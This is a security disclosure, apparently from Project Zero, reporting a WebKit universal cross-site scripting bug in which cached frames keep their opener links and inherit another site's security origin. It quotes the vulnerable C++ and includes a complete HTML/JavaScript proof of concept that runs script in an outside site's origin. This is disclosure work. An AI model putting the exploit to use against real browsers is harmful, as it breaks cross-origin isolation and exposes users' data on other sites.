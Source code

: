 # UXSS: CachedFrame doesn't detach openers

### Reported by <mailto:lokihardt@google.com>, Mar 10 2017

When a document loads "about:blank" or "about:srcdoc", it tries to inherit the security origin from its parent frame, or its opener frame if the parent frame doesn't exist. Normally, it doesn't happen that a subframe's document inherits its opener frame's security origin, because it has the parent frame. And it shouldn't happen at all. However, when the subframe is cached, only the parent frame is detached but not the opener frame. So, inheriting the opener frame's security origin could happen in that case.

```cpp
void Document::initSecurityContext()
{
   ...
   if (!shouldInheritSecurityOriginFromOwner(m_url)) <<----- check m_url is about:blank or about:srcdoc.
       return;

   // If we do not obtain a meaningful origin from the URL, then we try to
   // find one via the frame hierarchy.
   Frame* parentFrame = m_frame->tree().parent();
   Frame* openerFrame = m_frame->loader().opener();

   Frame* ownerFrame = parentFrame;
   if (!ownerFrame)
       ownerFrame = openerFrame;

   if (!ownerFrame) {
       didFailToInitializeSecurityOrigin();
       return;
   }

   ...
   setCookieURL(ownerFrame->document()->cookieURL());
   // We alias the SecurityOrigins to match Firefox, see Bug 15313
   // <a href="https://bugs.webkit.org/show_bug.cgi?id=15313" title="" class="" rel="nofollow">https://bugs.webkit.org/show_bug.cgi?id=15313</a>
   setSecurityOriginPolicy(ownerFrame->document()->securityOriginPolicy());
   ...
}
```

PoC:

```html
<body>
Click anywhere.
<script>

window.onclick = () => {
   window.onclick = null;

   let w = open('about:blank', '', 'width=500, height=500');
   w.eval(`
let f = document.body.appendChild(document.createElement('iframe'));
f.contentWindow.name = 'zzz';
opener.open('about:blank', 'zzz');

function navigate(w, url, cb = null) {
   w.__check = true;

   let a = w.document.createElement('a');
   a.href = url;
   a.click();

   if (!cb)
       return;

   let it = setInterval(() => {
       let navigated = false;
       try {
           if (!w.__check)
               navigated = true;
       } catch (e) {
           navigated = true;
       }

       if (navigated) {
           clearInterval(it);
           cb();
       }
   }, 10);
}

navigate(opener, '<a href="https://abc.xyz/" title="" class="" rel="nofollow">https://abc.xyz/</a>', () => {
   f.srcdoc = '<script>opener.alert(opener.location);</scrip' + 't>';
   f.contentWindow.onbeforeunload = () => {
       f.contentWindow.onbeforeunload = null;

       navigate(window, 'about:blank');
   };

   navigate(f.contentWindow, 'about:srcdoc');
});`);
}

</script>
</body>
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1176
